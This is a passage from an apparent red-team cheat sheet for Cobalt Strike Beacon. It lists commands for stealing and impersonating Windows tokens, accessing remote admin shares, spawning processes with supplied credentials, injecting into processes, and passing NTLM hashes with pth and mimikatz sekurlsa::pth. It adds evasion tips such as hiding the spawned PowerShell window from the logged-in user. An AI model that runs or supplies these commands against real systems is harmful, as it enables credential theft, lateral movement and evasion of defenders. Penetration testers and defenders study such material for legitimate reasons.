 ## Steal token from pid
## Like make_token but stealing the token from a process
steal_token [pid] # Also, this is useful for network actions, not local actions
## From the API documentation we know that this logon type "allows the caller to clone its current token". This is why the Beacon output says Impersonated <current_username> - it's impersonating our own cloned token.
ls \\computer_name\c$ # Try to use generated token to access C$ in a computer
rev2self # Stop using token from steal_token

## Launch process with nwe credentials
spawnas [domain\username] [password] [listener] #Do it from a directory with read access like: cd C:\
## Like make_token, this will generate Windows event 4624: An account was successfully logged on but with a logon type of 2 (LOGON32_LOGON_INTERACTIVE).  It will detail the calling user (TargetUserName) and the impersonated user (TargetOutboundUserName).

## Inject into process
inject [pid] [x64|x86] [listener]
## From an OpSec point of view: Don't perform cross-platform injection unless you really have to (e.g. x86 -> x64 or x64 -> x86).

## Pass the hash
## This modification process requires patching of LSASS memory which is a high-risk action, requires local admin privileges and not all that viable if Protected Process Light (PPL) is enabled.
pth [pid] [arch] [DOMAIN\user] [NTLM hash]
pth [DOMAIN\user] [NTLM hash]

## Pass the hash through mimikatz
mimikatz sekurlsa::pth /user:<username> /domain:<DOMAIN> /ntlm:<NTLM HASH> /run:"powershell -w hidden"
## Withuot /run, mimikatz spawn a cmd.exe, if you are running as a user with Desktop, he will see the shell (if you are running as SYSTEM you are good to go)
steal_token <pid> #Steal token from process created by mimikatz
